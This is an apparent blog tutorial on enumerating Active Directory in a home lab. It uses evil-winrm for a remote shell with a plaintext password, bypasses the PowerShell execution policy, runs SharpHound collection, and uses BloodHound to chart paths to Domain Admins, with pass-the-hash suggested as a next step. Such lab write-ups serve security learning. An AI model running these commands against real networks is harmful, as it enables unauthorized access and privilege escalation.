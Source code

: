 ```yaml
---
title: "Enumeration By Bloodhound "
layout: post
category: Active-Directory
tags: [AD, Bloodhound]
excerpt: " "
---
```


# **Bloodhound Overview**

Bloodhound is a tool that is generally used by adversaries to visually map an organization’s Active Directory structure and analyze it to find its weaknesses. Being able to analyze the Active Directory is very useful to attackers to identify which objects are worth targeting in an organization. Any user within an active directory domain can interrogate their organization’s Active Directory which runs on the domain controllers.

Bloodhound uses the collector which is called as SharpHound to collect various kinds of data by running a ton of LDAP queries to collect information within Active Directory.


## Grabbing Data with Bloodhound
- Download it form github -> [link](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823150132.png){: }


- Download [SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1 "SharpHound.ps1") script on your kali machine 
- To get shell  will use [evil-winrm](github.com/Hackplayers/evil-winrm) tool


```bash

ruby evil-winrm.rb -i 192.168.1.2 -u superman -p 'Password123!'

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823014957.png){: }

- See menu 

```bash
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823015416.png){: } 

- Upload **SharpHound.ps1** script to machine

```bash

upload /home/kali/Desktop/AD/SharpHound.ps1

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823150719.png){: }  

- bypass  powershell policy and run script

```bash
PowerShell -ep bypass # bypass policy powershell

ls # to see the script
. .\SharpHound.ps1 # to run script

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823150624.png){: }  

- Grabbing Data with Invoke-Bloodhound

```bash
Invoke-Bloodhound -CollectionMethod All -Domain Homelab.local -ZipFileName homelab.local.zip
```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823150840.png){: }  

- download file to local  kali machine

```bash
download 20220823031653_homlab.local.zip

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823151052.png){: }  

- check it after download it

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823151402.png){: }  


**next step install Bloodhound**

##  Bloodhound  Setup

###  Install  bloodhound

```bash
apt install bloodhound
```


### config neo4j console  
-  after run command will get link to access console

```bash
sudo neo4j console
```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823151628.png){: }  

- defualt username and pass -> neo4j

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823151714.png){: }  

- change password as you like -> my new pass kali

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823151734.png){: }  

## upload collection Data to Bloodhound
- Run neo4j console  on one Tab

```bash
sudo neo4j console
```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823151628.png){: }  

- Run **Bloodhound** on onther Tab

```bash
Bloodhound 
```


![Desktop View](/assets/img/AD_Lab/Pasted image 20220823151815.png){: }  

- enter  uername and new password 

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823151855.png){: }  

- upload collection file to Bloodhound

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823152437.png){: }  


## **Graphing the collected data**

Back on your BloodHound instance login and upload the hound.zip file via the up arrow to the right of the screen. Once imported click the 3 lines at the top left of the window to view the Database info. This shows you the AD info and relationships etc. **we have three tab database , node info  and Important one is Analysis**

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823154450.png){: }  

To Graph the data, go to the Analysis tab and choose what you would like to enumerate.

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823155429.png){: }  

By clicking on a node you can bring up the properties of that node

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823155612.png){: }  

Selecting **“Find Shortest Paths to Domain Admins”.** This shows the shortest route to get to Domain Administrator. We can see that ecartman, who is a domain administrator is logged into machine SOUTHPARK.PWNME.LOCAL so this would be a perfect target to maybe try passing a hash and using Token Impersonation to login to the Domain Controller etc.

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823155809.png){: }  

To further demonstrate the power of Blood hound, this is a result of selecting **Shortest Paths to High Value** **Targets.** This is a lab with less than 10 users and computers. Imagine a coorperate network with hundreds… This post has shown a very small fraction of what BloodHound is capable of.

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823155936.png){: }  


# reference
- https://medium.com/securonix-tech-blog/detecting-ldap-enumeration-and-bloodhound-s-sharphound-collector-using-active-directory-decoys-dfc840f2f644
- https://swepstopia.com/bloodhound-enumeration/
